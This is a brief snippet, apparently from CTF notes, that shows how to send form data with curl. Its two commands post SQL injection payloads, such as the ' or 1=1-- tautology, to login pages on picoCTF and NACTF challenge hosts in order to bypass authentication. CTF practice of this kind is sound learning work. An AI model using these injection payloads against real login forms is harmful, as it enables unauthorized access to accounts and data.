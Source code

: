 **How to send data with curl**

	curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=' be 'A'='A'--&debug=1"
	curl -s  https://login.challenges.nactf.com/auth.php --data "username=' or 1=1--&password=' or 1=1--"
